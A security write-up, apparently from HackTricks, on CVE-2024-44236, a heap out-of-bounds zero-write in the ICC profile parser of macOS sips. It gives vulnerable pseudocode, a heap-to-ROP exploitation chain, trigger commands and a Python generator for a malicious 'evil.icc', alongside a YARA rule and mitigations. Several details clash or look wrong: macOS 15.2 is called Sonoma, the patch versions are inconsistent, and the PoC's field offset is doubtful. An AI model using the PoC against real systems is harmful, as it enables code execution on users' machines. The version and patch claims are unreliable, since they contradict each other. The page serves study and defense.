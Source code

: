 # WWW2Exec - sips ICC Profile Out-of-Bounds Write (CVE-2024-44236)

## Overview

An out-of-bounds **zero-write** vulnerability in Apple macOS **Scriptable Image Processing System** (`sips`) ICC profile parser (macOS 15.0.1, `sips-307`) allows an attacker to corrupt heap metadata and pivot the primitive into full code-execution. The bug is located in the handling of the `offsetToCLUT` field of the `lutAToBType` (`mAB `) and `lutBToAType` (`mBA `) tags. If attackers set `offsetToCLUT == tagDataSize`, the parser erases **16 bytes past the end of the heap buffer**. Heap spraying lets the attacker zero-out allocator structures or C++ pointers that will later be dereferenced, yielding an **arbitrary-write-to-exec** chain (CVE-2024-44236, CVSS 7.8).

> Apple patched the bug in macOS Sonoma 15.2 / Ventura 14.7.1 (October 30, 2024). A second variant (CVE-2025-24185) was fixed in macOS 15.5 and iOS/iPadOS 18.5 on April 1, 2025.

## Vulnerable Code

```c
// Pseudocode extracted from sub_1000194D0 in sips-307 (macOS 15.0.1)
if (offsetToCLUT <= tagDataSize) {
    // BAD ➜ zero 16 bytes starting *at* offsetToCLUT
    for (uint32_t i = offsetToCLUT; i < offsetToCLUT + 16; i++)
        buffer[i] = 0;            // no bounds check vs allocated size!
}
```

## Exploitation Steps

1. **Craft a malicious `.icc` profile**

   * Set up a minimal ICC header (`acsp`) and add one `mAB ` (or `mBA `) tag.
   * Configure the tag table so the **`offsetToCLUT` equals the tag size** (`tagDataSize`).
   * Place attacker-controlled data right after the tag so that the 16 zero writes overlap allocator metadata.

2. **Trigger parsing with any sips operation that touches the profile**

   ```bash
   # verification path (no output file needed)
   sips --verifyColor evil.icc
   # or implicitly when converting images that embed the profile
   sips -s format png payload.jpg --out out.png
   ```

3. **Heap metadata corruption ➜ arbitrary write ➜ ROP**  
   On Apple’s default **`nano_zone` allocator**, metadata for 16-byte slots lives **immediately after** the aligned 0x1000 slab. By placing the profile’s tag at the end of such a slab, the 16 zero-writes clobber `meta->slot_B`. After a subsequent `free`, the poisoned pointer is enqueued in the tiny free list, letting the attacker **allocate a fake object at an arbitrary address** and overwrite a C++ vtable pointer used by sips, finally pivoting execution to a ROP chain stored in the malicious ICC buffer.

### Quick PoC generator (Python 3)

```python
#!/usr/bin/env python3
import struct, sys

HDR = b'acsp'.ljust(128, b'\0')          # ICC header (magic + padding)
TAGS = [(b'mAB ', 132, 52)]              # one tag directly after header
profile  = HDR
profile += struct.pack('>I', len(TAGS))  # tag count
profile += b''.join(struct.pack('>4sII', *t) for t in TAGS)

mab = bytearray(52)                      # tag payload (52 bytes)
struct.pack_into('>I', mab, 44, 52)      # offsetToCLUT = size (OOB start)
profile += mab

open('evil.icc', 'wb').write(profile)
print('[+] Wrote evil.icc (%d bytes)' % len(profile))
```

### YARA detection rule

```yara
rule ICC_mAB_offsetToCLUT_anomaly
{
    meta:
        description = "Detect CLUT offset equal to tag length in mAB/mBA (CVE-2024-44236)"
        author       = "HackTricks"
    strings:
        $magic = { 61 63 73 70 }          // 'acsp'
        $mab   = { 6D 41 42 20 }          // 'mAB '
        $mba   = { 6D 42 41 20 }          // 'mBA '
    condition:
        $magic at 0 and
        for any i in (0 .. 10):           // up to 10 tags
            (
              ($mab at 132 + 12*i or $mba at 132 + 12*i) and
              uint32(132 + 12*i + 4) == uint32(132 + 12*i + 8) // offset == size
            )
}
```

## Impact

Opening or processing a crafted ICC profile leads to remote **arbitrary code execution** in the context of the invoking user (Preview, QuickLook, Safari image rendering, Mail attachments, etc.), bypassing Gatekeeper because the profile can be embedded inside otherwise benign images (PNG/JPEG/TIFF).

## Detection & Mitigation

* **Patch!** Ensure the host is running macOS ≥ 15.2 / 14.7.1 (or iOS/iPadOS ≥ 18.1).  
* Deploy the YARA rule above on email gateways and EDR solutions.  
* Strip or sanitise embedded ICC profiles with `exiftool -icc_profile= -overwrite_original <file>` before further processing on untrusted files.  
* Harden Preview/QuickLook by running them inside sandboxed “transparency & modernisation” VMs when analysing unknown content.  
* For DFIR, look for recent execution of `sips --verifyColor` or `ColorSync` library loads by sandboxed apps in the unified log.

## References

* Trend Micro Zero Day Initiative advisory ZDI-24-1445 – “Apple macOS ICC Profile Parsing Out-of-Bounds Write Remote Code Execution (CVE-2024-44236)”  
  https://www.zerodayinitiative.com/advisories/ZDI-24-1445/  
* Apple security updates HT213981 “About the security content of macOS Sonoma 15.2”  
  https://support.apple.com/en-us/HT213981

